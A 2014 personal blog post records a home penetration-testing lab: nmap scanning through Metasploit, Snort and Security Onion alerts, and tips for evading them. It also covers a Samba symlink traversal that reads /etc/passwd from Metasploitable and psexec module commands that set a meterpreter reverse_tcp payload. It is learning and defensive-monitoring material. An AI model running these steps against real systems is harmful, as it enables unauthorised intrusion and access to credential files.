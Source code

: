 ```yaml
---
author: noah
comments: false
date: 2014-02-17 20:58:31+00:00
layout: post
slug: just-the-basics
title: Just the Basics
wordpress_id: 119
categories:
- Pen Testing
tags:
- basics
- metasploit
- sguil
- snort
---
```


Things have been busy lately, but I've been doing some reading, learning, and playing around in a small VM lab, and thought to briefly document what I've done. There is unfortunately nothing groundbreaking here, and nothing too interesting beyond a demonstration.




    
    ___  ___       _                      _         _  _   
    |  \/  |      | |                    | |       (_)| |  
    | .  . |  ___ | |_  __ _  ___  _ __  | |  ___   _ | |_ 
    | |\/| | / _ \| __|/ _` |/ __|| '_ \ | | / _ \ | || __|
    | |  | ||  __/| |_| (_| |\__ \| |_) || || (_) || || |_ 
    \_|  |_/ \___| \__|\__,_||___/| .__/ |_| \___/ |_| \__|
                                  | |                      
                                  |_|


For this example I've got Kali Linux, Metasploitable, Windows XP SP2, and Security Onion running. (Time to add some RAM...) There are a ton of good reference resources out there, and most of this is simply plug and play. The Kali distro isn't packaged with [Nessus](http://www.tenable.com/products/nessus/select-your-operating-system), so that may need downloaded and installed, although certainly not required for our purposes. Nothing fancy here as all machines are on the same subnet and bridged via my host NIC, making traffic sniffing trivial and allowing us to see the (mostly Snort rule) results of this nefarious-ness.

The Metasploit Unleashed [guide](http://www.offensive-security.com/metasploit-unleashed/) makes for a handy reference tool for Metasploit and Meterpreter themselves as well as a jumping off point into further research; namely fuzzing, exploit design, and post-exploitation topics. Another handy reference was the second half of this Security Onion [walkthrough](https://code.google.com/p/security-onion/wiki/IntroductionWalkthrough); the example with Sguil that was walked through was both interesting and instructive.

With all of the VMs up and running, msfconsole started in Kali, and with Security Onion listening to our traffic, let's do a little host discover with nmap. Metasploit provides an easy way to automatically populate results into its database with the db_nmap command.

    
    db_nmap -Pn -sS -A 192.168.100.1/24


The results are automatically stored and are easily seen with via 'hosts' and 'services'. Exporting normal nmap results to an xml file can allow for easily importing into msf as well.

    
    msf> hosts
    Hosts
    ======
    address         mac               name            os_name os_flavor os_sp purpose
    -------         ---               ----            ------- --------- ----- -------
    192.168.100.192 de:ad:be:ef:ca:fe 192.168.100.192 Linux   Debian          server
    
    msf> services 192.168.100.192
    Services
    ========
    host              port  proto  name   state    info
    ----              ----  -----  ----   -----    ----      
    192.168.100.192   21    tcp    ftp    open     ProFTPD 1.3.1
    ...


Nmap can be a fairly noisy tool as far as traffic generated though, as Sguil/Snorby results show. Snort alerts on fifty or so 'potential scans' and the Nmap scripting engine has very recognizable traffic. If we run nmap without the -A agressive option, we reduce the amount of alerts considerably (from nearly 50 to about 7 or so events generated without the nmap scripts). 

{{< figure src="/img/nmap_snorby.png">}}

Tip toeing around Snort rules and timers is an interesting game. Fyodor's Nmap [book](http://nmap.org/book/) has quite a bit of information around this and makes for interesting reading. Another thing to note is the default User Agent for Nmap scripts is fairly conspicuous as seen below. According to [this guy](http://www.kroosec.com/2012/02/making-nmap-scripting-engine-stealthier.html), that can be easily changed in the nse lua settings.

Another option for host and vulnerability discovery is via [Nessus](https://en.wikipedia.org/wiki/Nessus_(software)). Nmap and it's version detection can get us a long way, but Nessus will give us a laundry list of poor configurations, out of date services, relevant CVEs, and fixes. The new HTML5 UI is quite nice to use; simply run a scan on your desired targets and export as as a nessus file (xml format) for Metasploit to import.

**Anyways**

    
    msf> services 192.168.100.192
    Services
    ========
    host              port  proto  name        state    info
    ----              ----  -----  ----        -----    ----      
    192.168.100.192   21    tcp    ftp         open     ProFTPD 1.3.1
    192.168.100.192   137   udp    nebios-ns   open     
    192.168.100.192   139   tcp    netbios-ssn open     Samba smbd 3.x workgroup
    192.168.100.192   445   tcp    netbios-ssn open     Samba sbbd 3.x workgroup


Looks like Samba is running on Metasploitable. [This](https://www.grc.com/port_137.htm) page has some background info along with links to RFCs and other relevant netbios info.

In another terminal on Kali let's see what shares are available with 'smbclient -L //192.168.100.192'. Note this generates two low severity 'GPL NETBIOS SMB unicode share access' Snort events. /tmp is available, with a cute 'oh noes!' comment. Hmm, let's try there first.

    
    root@kali:~# smbclient -L //192.168.100.192
    Enter roots's password: <blank>
    Anonymous login successful
    Domain=[WORKGROUP] OS=[Unix] Server=[Samba 3.0.20-Debian]
           Sharename         Type       Comment
           ---------         ----       -------
           opt               Disk       oh noes!
    ...
    
    root@kali:~# smbclient //192.168.100.192/tmp
    Enter roots's password: <blank>
    Anonymous login successful
    Domain=[WORKGROUP] OS=[Unix] Server=[Samba 3.0.20-Debian]
    smb: \> ls
      .
      ..
      .ICE-unix
      .X11-unix
      4608.jsvc_up




If we access this  share, we only see the /tmp directory and nothing more. But if the samba configuration allows 'wide links' (which allow symbolic links to be added to a share) and allows write access to a directory, this is 'exploitable' by linking the file system to a directory in /tmp. A decent explanation how this works is on [Samba.org](https://www.samba.org/samba/news/symlink_attack.html) and the [mailing list.](http://lists.grok.org.uk/pipermail/full-disclosure/2010-February/072944.html)

Manually, you simply connect via `smbclient //192.168.100.192/tmp' anonymously, and enter 'symlink ../../../../../../../../../ rootfs` which traverses back to root and links that to your newly created directory. This gives read access to /etc/passwd remotely. Fortunately, permissions are somewhat limited as the user is anonymous. Otherwise, Metasploit can take care of this for us with the Samba Link Traversal [module](https://github.com/rapid7/metasploit-framework/blob/master/modules/auxiliary/admin/smb/samba_symlink_traversal.rb).

{{< figure src="/img/Selection_002.png" >}}

Once that has completed, open up a terminal, run `smbclient -L //192.168.100.192`, enter 'cd rootfs2`, and \etc\passwd is ours. 

**Other Stuff**

Even more fun can be had with the psexec module and a set of credentials. More info on [psexec](http://technet.microsoft.com/en-us/sysinternals/bb897553.aspx) and some more good information via [Rapid7](https://community.rapid7.com/community/metasploit/blog/2013/03/09/psexec-demystified) for further reading.

    
    msf > use exploit/windows/smb/psexec
    ...
    msf > set payload windows/meterpreter/reverse_tcp


Snort catches this with the high severity events** '**ET SHELLCODE Possible call with a No Offset TCP Shellcode event' and an 'ET POLICY PE EXE or DLL Windows file download'.

{{< figure src="/img/Selection_003.png" >}}

This isn't an exploit so to speak, but is an easy way to play around with Meterpreter. [Meterpreter](http://www.offensive-security.com/metasploit-unleashed/About_Meterpreter) exists only in memory, but does require a DLL sent to the victim, which as we saw, Snort detected. Meterpreter is an impressive tool; an in depth guide exists [here](http://dev.metasploit.com/documents/meterpreter.pdf) (pdf).

Next time I'll try to post something a little more novel that what you've (maybe) just read. This all feels somewhat script-kiddyish without a solid understanding of exploit development, but a person's got to start somewhere. There is virtually an unfathomable amount of knowledge and things to learn out there. Metasploitable in itself has a ton more to play with, not to mention Multillidae, DVWA, WebGoat, and others. I'd best get cracking.
